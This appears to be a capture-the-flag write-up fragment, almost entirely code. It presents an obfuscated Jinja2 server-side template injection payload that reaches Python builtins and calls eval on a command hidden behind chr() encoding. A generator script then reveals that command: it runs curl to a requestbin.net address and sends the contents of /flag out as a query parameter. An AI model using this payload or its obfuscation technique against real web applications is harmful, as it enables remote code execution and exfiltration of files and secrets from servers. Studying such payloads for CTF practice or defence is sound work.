 ```
{% set geti=(a,a,dict(getitem=a)|join,a,a)|join()%}
{% set built=(a,a,dict(builtins=a)|join,a,a)|join()%}
{% set x=(q|attr(ini)|attr(glo)|attr(geti))(built)%}
{% set chr=x.chr%}
{% set cmd=chr((cccccccccc~cccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((ccccccccccc~cccccc)|int)%2bchr((ccccccccccc~cccccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((cccccccccc~cccccc)|int)%2bchr((ccccc~c)|int)%2bchr((cccc~ccccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~cccccc)|int)%2bchr((cccc~ccccc)|int)%2bchr((ccccc~cc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~c)|int)%2bchr((ccccc~c)|int)%2bchr((cccc~ccccc)|int)%2bchr((cccccccccc~cccccccccc)|int)%2bchr((cccccccccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccc~ccccccccc)|int)%2bchr((cccc~ccc)|int)%2bchr((ccccccccccc~ccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((cccccc~ccccccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~cccc)|int)%2bchr((cccccccccccc~cccccccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~cccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccccccccc~ccccccccc)|int)%2bchr((ccccccccccc~cccccc)|int)%2bchr((cccccccccccc~c)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((cccccccccccc~c)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((cccccccccccc~cc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((ccccccccccc~cccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccccc~ccc)|int)%2bchr((ccccc~cccccccccc)|int)%2bchr((ccccccc~cccc)|int)%2bchr((cccccccccccc~ccc)|int)%2bchr((ccccccc~cc)|int)%2bchr((cccccccccc~ccccccc)|int)%2bchr((cccccccccc~cccccccccc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((cccccccccccc~ccccccc)|int)%2bchr((cccc~ccc)|int)%2bchr((ccccc~cccccccc)|int)%2bchr((ccccccccccc~ccc)|int)%2bchr((ccccccccccc~ccccccccc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccccc~cccc)|int)%2bchr((cccccccccc~ccccccc)|int)%2bchr((cccc~ccccc)|int)%2bchr((ccccc~cc)|int)%2bchr((ccccc~ccccccc)|int)%2bchr((cccccccccccc~ccccc)|int)%2bchr((ccccccccccc~cc)|int)%2bchr((cccccccccc~cccccccc)|int)%2bchr((ccccccccccc~c)|int)%2bchr((ccccc~c)|int)%2bchr((ccccc~cc)|int)%}
{%if x.eval(cmd)%}
666
{%endif%}
```

至于上面cmd里面的内容的生成

```
def generateIt(t):
	t='('+(int(t[:-1:])+1)*'c'+'~'+(int(t[-1])+1)*'c'+')|int'
	return t
s='__import__("os").popen("curl http://requestbin.net/r/wobh0ywo?p=`cat /flag`").read()'
def ccchr(s):
	t=''
	for i in range(len(s)):
		if i<len(s)-1:
			t+='chr('+generateIt(str(ord(s[i])))+')%2b'
		else:
			t+='chr('+generateIt(str(ord(s[i])))+')'
	return t
print(ccchr(s))
```
